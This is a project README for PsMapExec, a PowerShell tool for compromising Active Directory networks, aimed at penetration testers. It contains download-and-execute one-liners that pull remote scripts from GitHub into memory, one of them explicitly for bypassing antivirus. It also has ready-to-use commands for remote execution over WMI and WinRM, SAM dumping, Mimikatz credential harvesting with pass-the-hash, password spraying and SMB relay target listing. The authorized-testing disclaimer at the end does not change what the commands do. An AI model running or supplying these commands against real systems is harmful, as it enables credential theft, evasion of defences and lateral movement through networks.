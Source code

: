 # PsMapExec

More detailed documentation on how to use PsMapExec is available on Gitbook: https://viperone.gitbook.io/pentest-everything/psmapexec


The changelog can be viewed here: https://viperone.gitbook.io/pentest-everything/psmapexec/change-log

## What is PsMapExec

A PowerShell tool heavily inspired by the popular tool CrackMapExec. Far too often I find myself on engagements without access to Linux in order to make use of CrackMapExec. 

PsMapExec is used as a post-exploitation tool to assess and compromise an Active Directory environment. 

## What methods does it support

Currently supported  methods (Protocols)

* RDP
* SessionHunter
* SMB
* SMB Signing
* Spraying (Hash, Password, EmptyPassword and AccountAsPassword)
* WinRM
* WMI

Planned methods

* MSSQL (In testing)
* IPMI
* SNMP
* FTP
* SSH
## Quick Start
### Load the script directly into memory (Bypass AV)
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/Invoke-NETMongoose.ps1");IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
### Load the script directly into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
\
Execute some commands over WMI
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WMI -Command "net user"
```
\
Check RDP access across all systems
```
PsMapExec -Targets All -Username Admin -Password Pass -Method RDP
```
\
Dump SAM over WinRM and Parse the results
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WinRM -Module SAM -Option Parse
```
\
Authenticate over WMI with a hash and execute mimikatz
```
PsMapExec -Targets Workstations -Username Admin -Hash [Hash] -Method WMI -Module LogonPasswords -Option Parse -ShowOutput
```
\
Check SMB Signing on all domain systems
```
PsMapExec -Targets All -Method GenRelayList
```
## Detailed Usage
* https://viperone.gitbook.io/pentest-everything/psmapexec
* https://viperone.gitbook.io/pentest-everything/psmapexec/using-credentials
* https://viperone.gitbook.io/pentest-everything/psmapexec/methods
* https://viperone.gitbook.io/pentest-everything/psmapexec/modules
* https://viperone.gitbook.io/pentest-everything/psmapexec/spray


## Aknowledgements
## Dependencies
PsMapExec has some dependencies that need to be pulled from outside the script itself in order to use additional modules. 
Primarily these are:
  * Kirby (PowerShell based Kerberos ticket dump)
  * Invoke-Pandemonium (Slightly modified Mimikatz)

Currently, they are pulled from a seperate GitHub repository: https://github.com/The-Viper-One/PME-Scripts \
If you are working within an environment that has no external access or GitHub is blocked by a firewall you will need to clone the scripts in the respository onto the system from which PsMapExec is running from.

PsMapExec does not currently host a HTTP server for these so you will need to use something like HFS: https://www.rejetto.com/hfs/?f=dl
PsMapExec supports pointing to a locally or alternatively hosted server for the script dependencies.
```
PsMapExec -Targets All -Username [User] -Password [Pass] -LocalFileServer [IP]
```

## Support me
<a href="https://www.buymeacoffee.com/ViperOne" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


## Example Images

### Command Execution
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/e770e2b3-d441-4094-8a14-94848a3b6b74)

### SAM Dump
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/f00a5468-ee99-4db3-82f5-e59223ecf219)


### Mimikatz
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/a576b9c8-703e-423e-8041-44daca6cf335)

### RDP Access
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/ba875e2f-5898-4c10-a33c-7bcb9ef3a2f5)

# Disclaimer
PsMapExec is designed primarily for research, educational, and authorized testing scenarios. The purpose of developing and distributing PsMapExec is to provide professionals and researchers with a tool to understand and identify vulnerabilities and to bolster the security of systems. It is fundamentally imperative that users ensure they have obtained explicit, mutual consent from all involved parties before applying this tool on any system, network, or digital environment.

Engaging in unauthorized activities, including, but not limited to, accessing systems without permission, can lead to severe legal consequences. Users must be fully aware of, and adhere to, all their jurisdictional, local, state, and federal laws and regulations concerning cybersecurity and digital access.

The developers and contributors of PsMapExec expressly disclaim all liabilities and responsibilities for any unauthorized or illicit use of the tool. Additionally, they are not responsible for any consequent damages, losses, or repercussions stemming from the misuse or misapplication of PsMapExec.


